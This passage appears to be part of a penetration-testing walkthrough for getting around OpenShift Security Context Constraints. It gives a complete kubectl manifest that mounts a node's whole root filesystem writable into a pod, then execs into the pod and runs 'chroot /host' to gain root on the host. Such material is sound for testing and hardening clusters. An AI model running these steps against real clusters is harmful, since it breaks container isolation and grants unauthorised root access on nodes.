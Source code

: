 ### Step 6: Bypass Attempt #3: Host Path Mount (If Capabilities are Restricted)

If capabilities are restricted, try bypassing the SCC by mounting a host path:

```bash
cat <<EOF | kubectl apply -f -
apiVersion: v1
kind: Pod
metadata:
  name: hostpath-pod
spec:
  volumes:
  - name: host-volume
    hostPath:
      path: /
  containers:
  - name: hostpath-container
    image: busybox:latest
    command: ["/bin/sh", "-c", "sleep 3600"]
    volumeMounts:
    - name: host-volume
      mountPath: /host
      readOnly: false
EOF
```

**Explanation:**

This command creates a pod named `hostpath-pod` that mounts the entire host filesystem (`/`) into the container at `/host`.  If successful, this allows the container to access and potentially modify files on the host system, circumventing container isolation.

**Expected Output:**

The pod creation might fail if the SCC restricts host path mounts. If successful, the container will have access to the host filesystem and can potentially escalate privileges.

**Why it's executed:**

To test if the SCC allows mounting host paths, which can provide direct access to the underlying node's filesystem.

### Step 7:  Exploitation:  Gain Root Access on the Host (If Host Path Mount Succeeded)

If the host path mount was successful, connect to the container and attempt to gain root access on the host:

```bash
kubectl exec -it hostpath-pod -- /bin/sh
```

Once inside the container:

```bash
chroot /host
```
